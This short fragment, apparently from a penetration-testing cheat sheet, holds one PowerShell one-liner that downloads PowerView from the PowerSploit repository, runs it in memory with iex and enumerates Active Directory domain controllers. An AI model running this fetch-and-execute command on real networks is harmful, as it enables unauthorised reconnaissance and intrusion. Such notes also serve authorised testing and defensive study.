 ##### Download and Get Domain Controller
```powershell
PS > iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1'); Get-NetDomainController
```